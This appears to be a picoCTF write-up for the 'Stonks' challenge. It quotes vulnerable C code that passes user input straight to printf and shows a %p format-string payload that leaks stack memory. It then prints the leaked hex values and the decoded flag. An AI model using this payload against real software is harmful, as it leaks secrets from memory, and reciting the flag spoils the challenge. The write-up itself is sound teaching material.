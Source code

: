 ## Description

>I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you >if you told me it's unsecure! vuln.c nc mercury.picoctf.net 27912

For this CTF I first looked at the given c file 'vuln.c'. I noticed pretty quickly that the file had chosen to `printf` a `user_buf` straight from the stack instead of using any kind of format string.

```	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API

	view_portfolio(p);
```

I remembered from my malware analysis class that you could use this vulnerability to print out addresses that were on the stack, and if you looked a little higher up, inside the same function we have: 

```char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);
  ```
  Which means that the api_buf is probably still on the stack.
  
  So, let's talk to the server with the given ```nc mercury.picoctf.net 27912``` command.
  
  I recieved this in response:
  
  > Welcome back to the trading app!What would you like to do?\
  > 1) Buy some stonks!
  > 2) View my portfolio

After choosing option 1, I recieved this in response:

>Using patented AI algorithms to buy stonks
>Stonks chosen
>What is your API token?

This is where our `printf(usr_buf)` is judging by the source code, so I respond with 

```%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p```

and sure enough, I get this in response:

```0x82ac3b00x804b0000x80489c30xf7f4cd800xffffffff0x10x82aa1600xf7f5a1100xf7f4cdc7(nil)0x82ab1800x50x82ac3900x82ac3b00x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x326663310x306131300xffa2007d0xf7f87af80xf7f5a4400x808da8000x1(nil)0xf7de9ce9```

Well the hex addresses between the two `(nil)` symbols look interesting...

Sure enough, after converting them from hex to ascii then moving them around a little bit, I was able to get the key: picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}





  
  
